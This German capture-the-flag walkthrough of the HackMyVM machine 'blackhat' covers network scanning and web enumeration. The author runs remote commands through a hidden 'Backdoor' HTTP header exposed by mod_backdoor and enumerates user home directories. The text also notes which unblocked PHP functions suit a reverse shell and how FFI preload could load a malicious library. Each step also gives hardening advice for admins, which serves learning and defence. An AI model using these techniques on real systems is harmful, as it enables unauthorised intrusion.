


**Analyse:** Wie immer beginne ich meinen Pentest mit der Netzwerkerkennung, um die IP-Adresse des Zielsystems in meinem lokalen Netzwerk zu finden. Ich verwende `arp-scan` mit dem Parameter `-l`, um alle Hosts zu scannen, die auf ARP-Anfragen antworten. Die Ausgabe leite ich dann an `grep "PCS"` weiter, um nur Zeilen zu sehen, die den Hersteller "PCS Systemtechnik" enthalten, ein Hinweis auf die VirtualBox-Umgebung. Abschließend extrahiere ich mit `awk '{print $1}'` die erste Spalte, die die IP-Adresse enthält.
**Bewertung:** Dieser schnelle Scan lieferte direkt die IP-Adresse des Zielsystems, 192.168.2.34. Die Erkennung des Herstellers "PCS" ist hilfreich, um die Testumgebung zu identifizieren. Die Methode ist effizient für die Discovery von Hosts in einem bekannten lokalen Netzwerk.
**Empfehlung (Pentester):** Bei der Durchführung von Tests in lokalen Netzwerken ist `arp-scan` ein schnelles und zuverlässiges Tool zur Identifizierung aktiver Hosts.
**Empfehlung (Admin):** Überwachen Sie ARP-Traffic auf ungewöhnliche Anfragen von unbekannten MAC-Adressen. Segmentieren Sie Netzwerke, um die Reichweite von Layer-2-Discovery-Tools zu begrenzen.
192.168.2.34
**Analyse:** Um die Arbeit mit dem Zielsystem zu erleichtern und anstelle der IP-Adresse einen Hostnamen verwenden zu können, trage ich die gefundene IP-Adresse und den erwarteten Hostnamen `blackhat.hmv` in meine lokale `/etc/hosts` Datei ein. Ich nutze den `vi` Editor, um die Datei zu öffnen und die entsprechende Zeile hinzuzufügen.
**Bewertung:** Das Anpassen der hosts-Datei ist ein bewährtes Verfahren, um die Lesbarkeit von Befehlen und Skripten während des Pentests zu verbessern und sicherzustellen, dass Tools, die auf Hostnamen basieren, korrekt funktionieren. Es ist keine sicherheitsrelevante Aktion auf dem Zielsystem, sondern eine lokale Konfiguration auf meiner Angreifer-Maschine.
**Empfehlung (Pentester):** Fügen Sie Zielsysteme immer zu Ihrer hosts-Datei hinzu, sobald die IP-Adresse bekannt ist. Dies optimiert den Workflow und die Skripting-Fähigkeiten.
**Empfehlung (Admin):** Dieser Schritt hat keine direkten Auswirkungen auf die Sicherheit des Zielsystems, da er auf der Angreiferseite durchgeführt wird.
192.168.2.34 blackhat.hmv
**Analyse:** Als nächstes führe ich einen umfassenden Portscan des Zielsystems mit Nmap durch. Ich verwende die Optionen `-sS` (SYN-Scan), `-sC` (Ausführung von Standard-Skripten), `-sV` (Versionserkennung), `-p-` (Scan aller 65535 Ports), `-T5` (aggressives Timing) und `-AO` (OS-Erkennung und alle aktivierten Features). Der erste Befehl `nmap ... | grep open` filtert die Ausgabe, um schnell einen Überblick über alle offenen Ports zu erhalten.
**Bewertung:** Der gefilterte Nmap-Output zeigt, dass auf dem Zielsystem nur Port 80 (HTTP) offen ist. Dies konzentriert meine weitere Analyse stark auf die Webanwendung. Die Identifizierung von Apache httpd 2.4.54 auf Debian gibt mir die spezifische Softwareversion, nach der ich suchen kann. Das Fehlen anderer offener Ports wie SSH (22) oder anderer Dienste deutet darauf hin, dass der primäre Angriffsvektor über den Webserver erfolgen muss.
**Empfehlung (Pentester):** Beginnen Sie die Enumeration des Zielsystems immer mit einem vollständigen Portscan. Das Filtern der offenen Ports gibt einen schnellen Überblick. Konzentrieren Sie sich bei nur wenigen offenen Ports auf diese spezifischen Dienste.
**Empfehlung (Admin):** Stellen Sie sicher, dass nur die absolut notwendigen Ports und Dienste auf dem System offen sind. Filtern Sie eingehenden Traffic auf nicht benötigte Ports mit einer Firewall.
80/tcp open http Apache httpd 2.4.54 ((Debian))
**Analyse:** Hier dokumentiere ich die vollständige Ausgabe des Nmap-Scans. Sie bestätigt den offenen Port 80 mit Apache httpd 2.4.54 auf Debian. Die Standard-Skripte liefern weitere Details: den `http-server-header`, der die Apache-Version wiederholt, und den `http-title`, der "Hacked By HackMyVM" lautet. Dies könnte ein Hinweis darauf sein, dass die Maschine absichtlich so konfiguriert ist oder dass die Index-Seite bereits verändert wurde. Die OS-Erkennung ist sich nicht ganz sicher, schätzt aber stark auf Linux (Debian-basiert), was zur Apache-Version passt.
**Bewertung:** Die Nmap-Ausgabe liefert entscheidende Informationen für den nächsten Schritt. Die genaue Apache-Version ist ein Ziel für die Suche nach bekannten Schwachstellen. Der HTTP-Titel ist ein interessanter, wenn auch nicht direkt ausnutzbarer, Hinweis. Die wahrscheinliche Identifizierung als Debian-Linux ist nützlich für die spätere Privilege Escalation. Da nur Port 80 offen ist, wird die gesamte weitere Anstrengung auf die Webanwendung gerichtet sein.
**Empfehlung (Pentester):** Überprüfen Sie die spezifische Apache-Version auf bekannte CVEs (Common Vulnerabilities and Exposures). Notieren Sie sich den HTTP-Titel – manchmal enthält er versteckte Hinweise.
**Empfehlung (Admin):** Aktualisieren Sie Webserver-Software (Apache) regelmäßig auf die neueste Version, um bekannte Schwachstellen zu schließen. Minimieren Sie die Informationen in Server-Headern und im HTTP-Titel.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 22:13 CEST Nmap scan report for blackhat.hmv (192.168.2.34) Host is up (0.00022s latency). Not shown: 65534 closed tcp ports (reset) PORT STATE SERVICE VERSION 80/tcp open http Apache httpd 2.4.54 ((Debian)) |_http-server-header: Apache/2.4.54 (Debian) |_http-title: Hacked By HackMyVM MAC Address: 08:00:27:67:A9:1C (PCS Systemtechnik/Oracle VirtualBox virtual NIC) Aggressive OS guesses: Linux 4.15 - 5.19 (97%), OpenWrt 21.02 (Linux 5.4) (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (97%), Linux 6.0 (96%), Linux 2.6.32 (95%), Linux 4.19 (95%), Linux 3.2 - 4.14 (95%), Linux 2.6.32 - 3.10 (95%), Linux 5.0 - 5.14 (95%), Linux 4.15 (95%) No exact OS matches for host (test conditions non-ideal). Network Distance: 1 hop TRACEROUTE HOP RTT ADDRESS 1 0.22 ms blackhat.hmv (192.168.2.34) OS and Service detection performed. Please report any incorrect results at [Link: https://nmap.org/submit/ | Ziel: https://nmap.org/submit/] . Nmap done: 1 IP address (1 host up) scanned in 13.76 seconds
**Analyse:** Ich verwende Nikto, einen weit verbreiteten Webserver-Scanner, um die Webanwendung auf Port 80 auf bekannte Schwachstellen, veraltete Software, Konfigurationsfehler und andere Probleme zu scannen. Der Befehl `nikto -h http://blackhat.hmv` richtet den Scan auf den Hostnamen des Ziels.
**Bewertung:** Nikto hat einige interessante Ergebnisse geliefert. Es bestätigt den Apache-Server und listet wie erwartet fehlende Sicherheits-Header auf (`X-Frame-Options`, `X-Content-Type-Options`). Ein wichtiger Hinweis ist die mögliche Preisgabe von Inodes über ETags, was in bestimmten Szenarien ausgenutzt werden könnte. Entscheidend sind jedoch die gefundenen Einträge: `/phpinfo.php`. Nikto hat eine phpinfo()-Datei gefunden und meldet dies als kritische Informationspreisgabe (`CWE-552`), da eine phpinfo-Seite sehr detaillierte Informationen über die PHP-Konfiguration des Servers preisgibt. Die erlaubten HTTP-Methoden (GET, POST, OPTIONS, HEAD) sind Standard und stellen keine unmittelbare Schwachstelle dar.
**Empfehlung (Pentester):** Die gefundene `phpinfo.php` sofort aufrufen und analysieren. Sie enthält potenziell kritische Informationen für weitere Angriffe.
**Empfehlung (Admin):** Entfernen Sie die Datei `phpinfo.php` von Produktionsservern. Implementieren Sie alle empfohlenen Sicherheits-Header. Überprüfen Sie die Konfiguration des Webservers auf ungewollte Informationspreisgabe (z.B. Verzeichnisslistings, detaillierte Fehlermeldungen).
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 192.168.2.34 + Target Hostname: blackhat.hmv + Target Port: 80 + Start Time: 2025-06-09 22:13:17 (GMT2) --------------------------------------------------------------------------- + Server: Apache/2.4.54 (Debian) + /: The anti-clickjacking X-Frame-Options header is not present. See: [Link: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options | Ziel: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options] + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: [Link: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ | Ziel: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/] + No CGI Directories found (use '-C all' to force check all possible dirs) + /: Server may leak inodes via ETags, header found with file /, inode: 59d, size: 5edce4c6f946a, mtime: gzip. See: [Link: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418 | Ziel: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418] + OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD . + /phpinfo.php: Output from the phpinfo() function was found. + /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: [Link: CWE-552 | Ziel: CWE-552] + 7962 requests: 0 error(s) and 6 item(s) reported on remote host + End Time: 2025-06-09 22:13:26 (GMT2) (9 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
**Analyse:** Ich dokumentiere das Aussehen der Startseite (`index.html`). Das Bild zeigt, dass die Seite den Titel "Hacked By HackMyVM" trägt, was die Information aus dem Nmap-Scan visuell bestätigt. Die Seite hat wahrscheinlich ein simples HTML-Layout mit einem Bild.
**Bewertung:** Die Startseite scheint keine interaktive Funktionalität zu bieten. Der Titel deutet darauf hin, dass dies absichtlich eine "gehackte" Seite simuliert, was für ein Capture-The-Flag (CTF) Szenario typisch ist. Die Seite selbst liefert keine offensichtlichen Angriffspunkte oder Eingabefelder, die direkt getestet werden könnten, abgesehen von der Struktur der URL.
**Empfehlung (Pentester):** Den Source Code der index.html sorgfältig prüfen, um versteckte Hinweise oder Links zu finden, da die Oberfläche selbst wenig hergibt.
**Empfehlung (Admin):** Stellen Sie sicher, dass die Standard-Indexseite keine unnötigen Informationen enthält oder auf interne Ressourcen verweist.
Bildbeschreibung: hier sieht man die front page ansicht von index.html
**Analyse:** Ich betrachte den Source Code der `index.html` Seite. Das Bild im Bericht zeigt, dass die Seite versucht, das Anzeigen des Source Codes über die Tastenkombination Strg+U mit JavaScript zu blockieren. Im Source Code finde ich einen HTML-Kommentar, der einen Hinweis enthält: "check backboor....". Dies scheint ein Tippfehler für "check backdoor" zu sein.
**Bewertung:** Der Hinweis im Source Code ist ein entscheidender Fund! "backdoor" deutet stark auf eine absichtlich eingebaute, versteckte Funktionalität hin, die wahrscheinlich einen Hintertürcode auf dem Server ausführt. Das Blocking von Strg+U mit JavaScript ist ein Versuch, diesen Hinweis vor neugierigen Augen zu verbergen, was aber leicht umgangen werden kann (z.B. durch Deaktivieren von JavaScript oder Betrachten des Source Codes über `view-source:` im Browser).
**Empfehlung (Pentester):** Untersuchen Sie den Begriff "backdoor" im Kontext der zuvor gefundenen `phpinfo.php`. Suchen Sie nach einem versteckten Parameter oder HTTP-Header, der diesen Backdoor-Mechanismus aktivieren könnte. Ignorieren Sie clientseitige Schutzmechanismen wie JavaScript-Blocking für Source Code.
**Empfehlung (Admin):** Vermeiden Sie es, versteckte Hinweise oder Zugänge im öffentlich zugänglichen Source Code zu hinterlassen, auch in HTML-Kommentaren. Clientseitiges JavaScript-Blocking ist keine Sicherheitsmaßnahme.
Bildbeschreibung: hier sieht man den sourcecode von index.html der mit js strg + u tastenkombi blocken will...
der index.html sourcecode verbirgt einen Hinweis mit:check backboor....
**Analyse:** Um weitere versteckte Dateien oder Verzeichnisse auf dem Webserver zu finden, setze ich das Fuzzing-Tool `feroxbuster` ein. Ich ziele auf die URL `http://blackhat.hmv`, verwende die gängige Wordlist `directory-list-2.3-medium.txt` und erweitere sie mit einer Liste von Dateierweiterungen (`-x .git,.php,...`) um spezifische Dateitypen zu finden. Ich filtere die Ergebnisse, um nur Statuscodes 200 (OK), 301 (Moved Permanently) und 302 (Found) anzuzeigen.
**Bewertung:** Feroxbuster lieferte mehrere Treffer mit Status 200. Es fand die Indexseite (`/` und `/index.html`), die CSS-Datei (`/style.css`) und das Bild (`/image.jpg`), was die visuelle Darstellung bestätigt. Am wichtigsten ist jedoch der Fund von `/phpinfo.php`, was die Nikto-Ergebnisse bestätigt und eine kritische Seite für die weitere Enumeration darstellt. Die Laufzeit und Anzahl der Anfragen zeigen, dass ein gründlicher Scan durchgeführt wurde.
**Empfehlung (Pentester):** Fuzzing ist ein unverzichtbarer Schritt bei der Web-Enumeration, um versteckte oder nicht verlinkte Ressourcen zu finden. Kombinieren Sie Wordlists mit relevanten Dateierweiterungen.
**Empfehlung (Admin):** Stellen Sie sicher, dass keine sensiblen Dateien (wie phpinfo.php, Backup-Dateien, Konfigurationsdateien, Quellcode-Repositories) im Webroot oder öffentlich zugänglichen Verzeichnissen liegen.
___ ___ __ __ __ __ __ ___ |__ |__ |__) |__) | / ` / \ \_/ | | \ |__ | |___ | \ | \ | \__, \__/ / \ | |__/ |___ by Ben "epi" Risher 🤓 ver: 2.11.0 ───────────────────────────┬────────────────────── 🎯 Target Url │ http://blackhat.hmv 🚀 Threads │ 50 📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 👌 Status Codes │ [200, 301, 302] 💥 Timeout (secs) │ 7 🦡 User-Agent │ feroxbuster/2.11.0 💉 Config File │ /etc/feroxbuster/ferox-config.toml 🔎 Extract Links │ true 💲 Extensions │ [git, php, html, xml, zip, 7z, tar, bak, sql, py, pl, txt, jpg, jpeg, png, js, aac, ogg, flac, alac, wav, aiff, dsd, mp3, mp4, mkv, phtml] 🏁 HTTP methods │ [GET] 🔃 Recursion Depth │ 4 ───────────────────────────┴────────────────────── 🏁 Press [ENTER] to use the Scan Management Menu™ ────────────────────────────────────────────────── 200 GET 43l 326w 23804c http://blackhat.hmv/image.jpg 200 GET 127l 263w 2332c http://blackhat.hmv/style.css 200 GET 62l 121w 1437c http://blackhat.hmv/ 200 GET 62l 121w 1437c http://blackhat.hmv/index.html 200 GET 769l 4038w 69310c http://blackhat.hmv/phpinfo.php [####################] - 7m 6175484/6175484 0s found:5 errors:2 [####################] - 7m 6175288/6175288 15139/s http://blackhat.hmv/
**Analyse:** Ich verwende `curl` mit den Optionen `-Iv` (Include Header, Verbose) auf der Root-URL `http://192.168.2.34`, um die HTTP-Antwort-Header der Startseite zu inspizieren. Dies gibt mir detaillierte Informationen über die Kommunikation mit dem Server.
**Bewertung:** Die Ausgabe bestätigt den HTTP/1.1 200 OK Status und den Server (`Apache/2.4.54`). Der `Content-Type: text/html` und die `Content-Length: 1437` bestätigen die Größe und Art der Seite. Die Header `Last-Modified` und `ETag` sind standardmäßig vorhanden und geben Zeit- und Versionsinformationen der Datei, die für Cache-Validierung verwendet werden. Nikto hatte bereits angemerkt, dass ETags potenziell Inode-Informationen preisgeben können (CVE-2003-1418), was aber hier im Kontext dieses Tests keine direkte Ausnutzung ermöglicht. Wichtiger ist die Bestätigung der grundlegenden Server-Antwort.
**Empfehlung (Pentester):** Überprüfen Sie immer die rohen HTTP-Header auf zusätzliche Informationen oder ungewöhnliches Verhalten. Die Content-Length kann nützlich sein, um bei Fuzzing-Angriffen Standardantworten zu filtern.
**Empfehlung (Admin):** Minimieren Sie die Informationen in HTTP-Headern, insbesondere ETag-Werte, falls diese sensible Informationen preisgeben könnten. Konfigurieren Sie den Server so, dass er nur notwendige Header sendet.
* Trying 192.168.2.34:80... * Connected to 192.168.2.34 (192.168.2.34) port 80 * using HTTP/1.x > HEAD / HTTP/1.1 > Host: 192.168.2.34 > User-Agent: curl/8.13.0 > Accept: */* > * Request completely sent off < HTTP/1.1 200 OK HTTP/1.1 200 OK < Date: Mon, 09 Jun 2025 20:22:45 GMT Date: Mon, 09 Jun 2025 20:22:45 GMT < Server: Apache/2.4.54 (Debian) Server: Apache/2.4.54 (Debian) < Last-Modified: Sat, 19 Nov 2022 08:06:24 GMT Last-Modified: Sat, 19 Nov 2022 08:06:24 GMT < ETag: "59d-5edce4c6f946a" ETag: "59d-5edce4c6f946a" < Accept-Ranges: bytes Accept-Ranges: bytes < Content-Length: 1437 Content-Length: 1437 < Vary: Accept-Encoding Vary: Accept-Encoding < Content-Type: text/html Content-Type: text/html < * Connection #0 to host 192.168.2.34 left intact
**Analyse:** Ich führe einen `curl -Iv` Befehl speziell auf die von Nikto gefundene `phpinfo.php` Seite aus, um deren Header zu überprüfen.
**Bewertung:** Die Antwort ist HTTP/1.1 200 OK, was bestätigt, dass die Seite direkt zugänglich ist. Die Header zeigen ebenfalls den Apache-Server und den `Content-Type: text/html`, diesmal mit charset UTF-8. Die Header-Analyse bestätigt nur die Existenz und Erreichbarkeit, aber die eigentlichen kritischen Informationen liegen im Body der phpinfo-Seite.
**Empfehlung (Pentester):** Nach der Header-Analyse muss der Inhalt der `phpinfo.php` Seite selbst detailliert untersucht werden.
**Empfehlung (Admin):** Entfernen Sie die `phpinfo.php` Datei, da sie unnötige und potenziell gefährliche Systemdetails preisgibt.
* Trying 192.168.2.34:80... * Connected to 192.168.2.34 (192.168.2.34) port 80 * using HTTP/1.x > HEAD /phpinfo.php HTTP/1.1 > Host: 192.168.2.34 > User-Agent: curl/8.13.0 > Accept: */* > * Request completely sent off < HTTP/1.1 200 OK HTTP/1.1 200 OK < Date: Mon, 09 Jun 2025 20:23:45 GMT Date: Mon, 09 Jun 2025 20:23:45 GMT < Server: Apache/2.4.54 (Debian) Server: Apache/2.4.54 (Debian) < Content-Type: text/html; charset=UTF-8 Content-Type: text/html; charset=UTF-8 < * Connection #0 to host 192.168.2.34 left intact
**Analyse:** Ich rufe die `phpinfo.php` Seite im Browser auf, um ihren Inhalt zu sehen und nach Hinweisen zu suchen. Das Bild im Bericht zeigt einen relevanten Abschnitt unter "Configuration / apache2handler", wo der Eintrag `mod_backdoor` zu sehen ist. Dieser Modulname ist sehr ungewöhnlich und sicher kein Standardbestandteil von Apache.
**Bewertung:** **Kritischer Fund!** Die Existenz eines Apache-Moduls namens `mod_backdoor` ist ein sehr starker Hinweis auf eine absichtlich eingebaute Hintertür. In CTFs wird so etwas oft für Remote Code Execution (RCE) verwendet. Die Kombination des Hinweises "check backboor" aus dem `index.html` Source Code und des `mod_backdoor` Eintrags in der `phpinfo.php` ist eindeutig – es gibt eine Backdoor auf dem System, die über den Webserver zugänglich ist.
**Empfehlung (Pentester):** Untersuchen Sie, wie `mod_backdoor` aktiviert und gesteuert wird. Suchen Sie in der `phpinfo()` Ausgabe nach ungewöhnlichen Umgebungsvariablen, Apache-Direktiven oder PHP-Einstellungen, die mit diesem Modul in Verbindung stehen könnten. Testen Sie das Senden von Anfragen mit ungewöhnlichen HTTP-Headern oder Parametern.
**Empfehlung (Admin):** **Dringend:** Untersuchen Sie das `mod_backdoor` Modul, entfernen Sie es, wenn es nicht explizit und sicher benötigt wird. Überprüfen Sie alle installierten Apache-Module und ihre Konfigurationen auf unbekannte oder verdächtige Einträge.
Analyse der `phpinfo.php` Seite und Entdeckung von `mod_backdoor`:
http://192.168.2.34/phpinfo.php

Bildbeschreibung: hier sieht man in der phpinfo unter Configuration/apache2handler den Eintrag:mod_backdoor
**Analyse:** Basierend auf dem Fund von `mod_backdoor` und dem Hinweis "check backdoor", konzentriere ich mich auf die Analyse weiterer relevanter Informationen in der `phpinfo.php` Seite. Insbesondere prüfe ich die PHP-Konfigurationen `disable_functions` und `ffi.enable`.
**Bewertung:** Die `disable_functions` Liste zeigt, dass viele `pcntl_` Funktionen deaktiviert sind. Das ist eine grundlegende Sicherheitsmaßnahme, um die Ausführung von Systembefehlen aus PHP heraus einzuschränken. Wichtig ist jedoch, dass kritische Funktionen wie `system`, `shell_exec`, `passthru`, `exec` (im Gegensatz zu `pcntl_exec`) und `proc_open` *nicht* deaktiviert sind. Dies bedeutet, dass RCE über PHP, falls eine Injection-Schwachstelle gefunden wird, immer noch möglich ist. Der Eintrag `ffi.enable = preload` im FFI-Abschnitt ist ebenfalls sehr interessant. Dies deutet darauf hin, dass PHP FFI (Foreign Function Interface) aktiv ist und im "preload"-Modus konfiguriert ist. FFI kann, wenn falsch konfiguriert oder in Kombination mit Dateiuploads, für RCE missbraucht werden, indem eine bösartige Shared Library zur Laufzeit geladen wird. Dies ist ein potenziell fortgeschrittener PE-Vektor.
**Empfehlung (Pentester):** Notieren Sie sich die nicht deaktivierten PHP-Funktionen für RCE-Paylaods. Halten Sie den FFI-preload-Mechanismus als möglichen fortgeschrittenen Vektor für Privilege Escalation oder RCE im Hinterkopf, falls einfachere Methoden fehlschlagen.
**Empfehlung (Admin):** Überprüfen Sie die `disable_functions` Einstellung in der `php.ini` und deaktivieren Sie alle gefährlichen Funktionen, die nicht benötigt werden. Konfigurieren Sie `ffi.enable` restriktiv oder deaktivieren Sie FFI vollständig, wenn es nicht benötigt wird. Verhindern Sie das Hochladen von Dateien, die als PHP-Code oder als Bibliotheken interpretiert werden könnten (z.B. `.user.ini`, `.htaccess`, `.so`-Dateien).
PHP-Konfiguration: disable_functions ist nicht perfekt Ich habe mir die disable_functions Liste in der phpinfo.php angesehen: disable_functions: pcntl_alarm,pcntl_fork, ... ,pcntl_exec, ... Es sind zwar viele pcntl_ Funktionen deaktiviert, aber die wichtigsten Funktionen für eine Reverse Shell sind "NICHT" deaktiviert: system shell_exec passthru exec (Achtung, pcntl_exec ist deaktiviert, aber nicht exec selbst!) proc_open PHP-Konfiguration: FFI (Foreign Function Interface) Unter dem Abschnitt FFI in der phpinfo.php steht: ffi.enable = preload Das ist sehr interessant! PHP FFI kann, wenn es falsch konfiguriert ist, für RCE missbraucht werden. Die preload Einstellung bedeutet, dass PHP beim Start eine vom Entwickler definierte C-Bibliothek laden kann. Wenn wir irgendwie eine Datei auf den Server hochladen könnten (z.B. ein .user.ini), könnten wir PHP anweisen, unsere eigene bösartige .so-Datei zu laden. Das ist ein fortgeschrittener, aber sehr mächtiger Vektor.
**Analyse:** Aufbauend auf der Entdeckung des `mod_backdoor` Moduls und des Hinweises "check backdoor", teste ich nun, ob ein HTTP-Header namens "Backdoor" existiert und ob ich über ihn Befehle ausführen kann. Ich verwende `wfuzz` mit der Option `-H "FUZZ: id"`, um zu sehen, ob das Einfügen des Wortes "id" in einen Fuzzing-Placeholder im Header eine andere Antwort als die Standard-Antwort des Servers erzeugt (gefiltert mit `--hh 1437`, basierend auf der Content-Length der index.html). Der Fuzzing-Placeholder ist im Namen des Headers (`FUZZ`).
**Bewertung:** **Erfolg!** Wfuzz findet einen Treffer (ID 000181647) mit Status 200 und der Payload "Backdoor". Die Antwort hat nur 1 Zeile, 3 Wörter und 54 Zeichen, was sich stark von der Standardseite unterscheidet. Dies bestätigt, dass ein HTTP-Header namens "Backdoor" existiert und dass das Einfügen von "id" in seinen Wert eine Reaktion des Servers hervorruft. Dies ist der Mechanismus der Backdoor.
**Empfehlung (Pentester):** Verwenden Sie nun den gefundenen "Backdoor"-Header, um systematisch Befehle auszuführen und den ersten Zugriff zu erlangen.
**Empfehlung (Admin):** **Dringend:** Entfernen Sie das `mod_backdoor` Modul und jegliche Logik, die Befehle über HTTP-Header ausführt. Überprüfen Sie alle benutzerdefinierten oder nicht-standardmäßigen Webserver-Module.
Fuzzing nach einem potenziellen Backdoor-Header:
000181647: 200 1 L 3 W 54 Ch "Backdoor" Total time: 0 Processed Requests: 220546 Filtered Requests: 218689 Requests/sec.: 0
**Analyse:** Ich nutze den gefundenen "Backdoor"-Header, um Befehle auf dem Zielsystem auszuführen. Ich sende eine `curl` Anfrage an die Root-URL und füge den Header `-H "Backdoor: id"` hinzu. Die Option `-s` unterdrückt Fortschrittsanzeigen von curl, `| tail -n 1` zeigt nur die letzte Zeile der Ausgabe, da die Backdoor wahrscheinlich nur den Output des Befehls in die Antwort einfügt. Ich führe den Befehl `id` aus, um die Identität des Benutzers zu prüfen.
**Bewertung:** **Fantastisch! Die Ausführung des `id`-Befehls war erfolgreich!** Der Output `uid=33(www-data) gid=33(www-data) groups=33(www-data)` bestätigt, dass ich beliebige Befehle auf dem System ausführen kann, und zwar mit den Rechten des Webserver-Benutzers `www-data`. Dies ist der entscheidende Schritt zum Initial Access – ich habe Remote Code Execution (RCE) erlangt.
**Empfehlung (Pentester):** Nutzen Sie diese RCE-Fähigkeit, um das System weiter zu enumerieren (Dateisystem, Benutzer, Prozesse) und eine stabilere Shell (z.B. Reverse Shell) zu etablieren.
**Empfehlung (Admin):** **Sofortige Behebung:** Entfernen Sie das `mod_backdoor` Modul oder sichern Sie es extrem ab. Jegliche RCE-Schwachstelle ermöglicht die vollständige Kompromittierung des betroffenen Systems.
Ausnutzung der Backdoor über den HTTP-Header zur Ausführung des `id`-Befehls:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
**Analyse:** Nachdem die RCE bestätigt ist, nutze ich den Backdoor-Header, um das Home-Verzeichnis zu listen (`ls /home`) und dann den Inhalt des Home-Verzeichnisses des Benutzers `darkdante` zu listen (`ls -la /home/darkdante`). Ich nutze weiterhin `curl` mit dem "Backdoor"-Header und `| tail -n 1` um die relevante Ausgabe zu extrahieren.
**Bewertung:** Der Befehl `ls /home` zeigt, dass es einen Benutzer namens `darkdante` gibt. Das Listing von `/home/darkdante` zeigt eine typische Verzeichnisstruktur (.bashrc, .profile, etc.) und am wichtigsten eine Datei namens `user.txt`. Dies ist sehr wahrscheinlich die Benutzer-Flag, die ich als nächstes Ziel ansteuere. Die Berechtigungen auf `user.txt` sind `-rwx------ 1 darkdante darkdante`, was bedeutet, dass nur der Benutzer `darkdante` die Datei lesen, schreiben und ausführen kann. Als `www-data` kann ich diese Datei nicht direkt lesen.
**Empfehlung (Pentester):** Der Benutzer `darkdante` ist das offensichtliche Ziel für den ersten PrivEsc-Schritt. Finden Sie einen Weg, die Berechtigungen von `www-data` auf `darkdante` zu erhöhen oder Anmeldedaten für `darkdante` zu finden.
**Empfehlung (Admin):** Setzen Sie restriktive Berechtigungen auf Benutzerdateien, insbesondere auf sensible Dateien wie Flags in CTF-Umgebungen. Home-Verzeichnisse sollten standardmäßig `chmod 700` haben.
Enumeration von Benutzern und dem Home-Verzeichnis von `darkdante` über die Backdoor:
darkdante
-rwx------ 1 darkdante darkdante 33 Nov 11 2022 user.txt
**Analyse:** Ich dokumentiere hier die clientseitigen Versuche, den Source Code der `index.html` Seite anzuzeigen. Der Text im Bericht beschreibt die Deaktivierung von JavaScript im Browser, um das von der Seite implementierte Blocking der Strg+U Tastenkombination zu umgehen. Anschließend wird das Kontextmenü durch Rechtsklick genutzt, um "Seitenquelltext anzeigen" auszuwählen.
**Bewertung:** Dies illustriert eine einfache, aber effektive Methode, clientseitige Schutzmechanismen zu umgehen, die sich auf JavaScript verlassen. Das Blocking des Source Codes war nur eine oberflächliche Maßnahme. Die tatsächliche Schwachstelle (der "backdoor"-Hinweis) konnte so dennoch gefunden werden.
**Empfehlung (Pentester):** Verlassen Sie sich nie darauf, dass clientseitiges JavaScript Sicherheitsmaßnahmen durchsetzt. Lernen Sie, solche Beschränkungen (z.B. durch Deaktivieren von JS, Verwenden von Entwickler-Tools, oder eben `view-source:`) zu umgehen.
**Empfehlung (Admin):** Implementieren Sie Sicherheitsmaßnahmen immer serverseitig. Clientseitiges JavaScript dient der Benutzerfreundlichkeit, nicht der Sicherheit vor Angreifern.
